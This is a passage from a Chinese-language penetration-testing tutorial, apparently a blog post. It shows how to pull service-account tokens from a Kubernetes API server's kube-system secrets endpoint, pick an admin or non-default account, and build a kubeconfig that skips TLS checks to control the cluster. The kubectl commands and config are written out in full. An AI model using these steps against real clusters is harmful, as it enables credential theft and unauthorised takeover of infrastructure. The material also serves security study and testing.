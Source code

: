 ![](https://gitee.com/fuli009/images/raw/master/public/20220314221353.png)

访问`https://192.168.41.22:6443/api/v1/namespaces/kube-system/secrets/` 获取`kube-
system`命名空间的`token`信息：

![](https://gitee.com/fuli009/images/raw/master/public/20220314221354.png)

系统自带的服务账号没啥操作权限，需要寻找运维人员自建的。总之， **有admin就找admin** ，没有的话找个 **非系统自带账号** 或者
**尝试default账号** 。

![](https://gitee.com/fuli009/images/raw/master/public/20220314221356.png)

拿到了token后，可以在攻击机上安装kubectl工具，然后执行以下命令创建一个test_config，token处填入获取的 token：

    
    
    touch test_config  
      
    kubectl --kubeconfig=./test_config config set-credentials hacker --token=TOKEN  
      
    kubectl --kubeconfig=./test_config config set-cluster hacked_cluster --server=https://192.168.41.22:6443/  --insecure-skip-tls-verify  
      
    kubectl --kubeconfig=./test_config config set-context test_context --cluster=hacked_cluster --user=hacker  
      
    kubectl --kubeconfig=./test_config config use-context test_context

生成的文件内容为：

    
    
    apiVersion: v1  
    clusters:  
    - cluster:  
        insecure-skip-tls-verify: true  
        server: https://192.168.41.22:6443/  
      name: hacked_cluster  
    contexts:  
    - context:  
        cluster: hacked_cluster  
        user: hacker  
      name: test_context  
    current-context: test_context  
    kind: Config  
    preferences: {}  
    users:  
    - name: hacker  
      user:  
        token: ZXlKaGJHY2lPaUpTVXpJMU5TOKEN

通过kubectl加载刚才的config文件执行pod里面的命令：

    
    
    kubectl --kubeconfig=./test_config get nodes -A

![](https://gitee.com/fuli009/images/raw/master/public/20220314221357.png)
